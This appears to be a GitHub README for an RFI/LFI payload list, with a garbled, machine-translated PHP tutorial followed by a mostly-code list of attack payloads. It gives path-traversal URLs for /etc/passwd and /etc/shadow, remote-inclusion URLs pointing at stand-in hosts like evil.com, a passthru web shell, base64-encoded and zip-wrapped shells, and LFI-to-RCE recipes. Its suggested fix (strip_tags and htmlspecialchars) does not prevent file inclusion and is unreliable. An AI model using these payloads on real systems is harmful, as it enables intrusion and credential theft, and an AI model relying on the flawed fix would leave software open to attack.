 # RFI/LFI

<p align="center">
<img src="https://github.com/payloadbox/rfi-lfi-payload-list/blob/master/img/rfi-lfi.jpeg">
</p>

<p align="center">
  <img src="https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg"> <img src="https://img.shields.io/github/stars/payloadbox/rfi-lfi-payload-list?style=social"> <img src="https://img.shields.io/github/forks/payloadbox/rfi-lfi-payload-list?style=social"> <img src="https://img.shields.io/github/repo-size/payloadbox/payloadbox/rfi-lfi-payload-list"> <img src="https://img.shields.io/github/license/payloadbox/rfi-lfi-payload-list"> <img src="https://img.shields.io/github/issues/detail/author//payloadbox/rfi-lfi-payload-list/1">
</p>

## Explicación

As with many exploits, remote and local file inclusions are only a problem at the end of the encoding. Of course, it takes a second person to have it. Now, this article will hopefully give you an idea of protecting your website and most importantly your code from a file iclusion exploit. I’ll give example codes in PHP format.

Let’s look at some of the code that makes RFI / LFI exploits possible.

```
<a href=index.php?page=file1.php> Files </a>
<? Php
$ page = $ _GET [page];
include ($ page);
?>
```

Obviously this should not be used. The $ page entry is not fully cleared. $ page input is directed directly to the damn web page, which is a big “NO”. Always remove any input passing through the browser. When the user clicks on “File” to visit “files.php” when he visits the web page, something will appear like this.

```
http: //localhost/index.php? page = files.php
```

Now, if no one has cleared the input in the $ page variable, we can have it pointed to what we want. If hosted on a unix / linux server, we can display the password as configuration files for shaded or uncleaned variable input.

Viewing files on the server is a “Local File Inclusion” or LFI exploit. This is no worse than an RFI exploit.

```
http: //localhost/index.php? page = .. / .. / .. / .. / .. / .. / etc / passwd
```

The code will probably return to / etc / passwd. Now let’s look at the RFI aspect of this exploit. Let’s get some of the codes we’ve taken before.

```
<a href=index.php?page=file1.php> Files </a>
<? Php
$ page = $ _GET [page];
include ($ page);
?>
```
Now suppose we write something like …

```
http: //localhost/index.php? page = http: //google.com/
```

Probably where the $ page variable was originally placed on the page, we get the google.com homepage. This is where the codder 
can be hurt. We all know what c99 (shell) can do, and if coders are careful, they may be included in the page, allowing users to surf through sensitive files and contacts at the appropriate time. Let’s look at something simpler that can happen on a web page. The faster and more dirty use of RFI exploitation is to your advantage. Now, create a file named “test.php” and put the following code in it and save it.

```

<? Php
passthru ($ _ GET [cmd]);
?>

```

Now this file is something you can use to your advantage to include it on a page with RFI exploitation. The passthru () command in PHP is very evil, and many hosts call it “out of service for security reasons”. With this code in test.php, we can send a request to the web page, including file inclusion exploit.

```
http: //localhost/index.php? page = http: //someevilhost.com/test.php
```

When the code makes a $ _GET request, we must provide a command to pass to passthru (). We can do something like this.

```
http: //localhost/index.php? page = http: //someevilhost.com/test.php? cmd = cat / etc / passwd
```

This unix machine will also extract the file / etc / passwd using the cat command. Now we know how to exploit RFI exploit, now we need to know how to hold it and make it impossible for anyone to execute the command, and how to include remote pages on your server. First, we can disable passthru (). But anything on your site can use it again (hopefully not). But this is the only thing you can do. I suggest cleaning the inputs as I said before. Now, instead of just passing variables directly to the page, we can use a few PHP-proposed structures within functions. Initially, chop () from perl was adapted to PHP, which removes whitespaces from an array. We can use it like this.
```
<a href=index.php?page=file1.php> Files </a>
<? Php
$ page = chop ($ _ GET [page]);
include ($ page);
?>
```

There are many functions that can clear string. htmlspecialchars ()
htmlentities (), stripslashes () and more. In terms of confusion, I prefer to use my own functions. We can do a function in PHP that can clear everything for you, here I’ve prepared something easy and quick about this course for you.

```
<? Php
function cleanAll ($ input) {
$ input = strip_tags ($ input);
$ input = htmlspecialchars ($ input);
return ($ input);
}
?>
```

Now I hope you can see what’s going on inside this function, so you can add yours. I would suggest using the str_replace () function and there are a lot of other functions to clear them. Be considerate and stop the RFI & LFI exploit frenzy!

## Payloads

#### [+] Interesting files to check out :

```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
```

#### [+] Basic LFI (null byte, double encoding and other tricks) :

```
http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
http://example.com/index.php?page=....//....//etc/passwd
```

#### [+] Basic RFI (null byte, double encoding and other tricks) :

```
http://example.com/index.php?page=http://evil.com/shell.txt
http://example.com/index.php?page=http://evil.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

#### [+] LFI / RFI Wrappers :

> LFI Wrapper rot13 and base64 - php://filter case insensitive.

```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php

Can be chained with a compression wrapper.
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```
> LFI Conversión Codificación de caracteres

+ Allows you to view archived content on the same web page
```
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
```
> Wrappers Commands Excute :

+ Simple input for excute commands, using burpsuite

```
http://example.com/index.php?page=php://input
  ... Host: localhost:8081
  ... Content-Length: 25
    ...
<?php system("id"); ?>
```

+ LFI Wrapper ZIP :

```
echo "</pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;   
mv payload.zip shell.jpg;    
rm payload.php   
  
http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

+ RFI Wrapper DATA - payload encoded base64 :

```
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
<?php system($_GET['cmd']);echo 'Shell done !'; ?> -> PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=

```

+ RFI Wrapper EXPECT :

```
http://example.com/index.php?page=php:expect://id
http://example.com/index.php?page=php:expect://ls
```

#### [+] XSS via RFI/LFI with "" payload :

```
http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+
```

#### [+] LFI to RCE via /proc/*/fd :
 
 1. Upload a lot of shells (for example : 100)
 2. Include http://example.com/index.php?page=/proc/$PID/fd/$FD with $PID = PID of the process (can be bruteforced) and $FD the filedescriptor (can be bruteforced too)
 
#### [+] LFI to RCE via Upload :

```
http://example.com/index.php?page=path/to/uploaded/file.png
```

### Servicios / Versiones

#### [+] PHP 5.2.17
```
/etc/passwd\0
/etc/passwd/.
```

#### References :

👉 [Testing for Local File Inclusion](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion)

👉 [Wikipedia](www.wikipedia.org/wiki/Local_File_Inclusion)

👉 [Remote File Inclusion](http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion)

👉 [Wikipedia: "Remote File Inclusion"](http://en.wikipedia.org/wiki/Remote_File_Inclusion)

👉 [PHP File Inclusion](https://www.owasp.org/index.php/PHP_File_Inclusion)
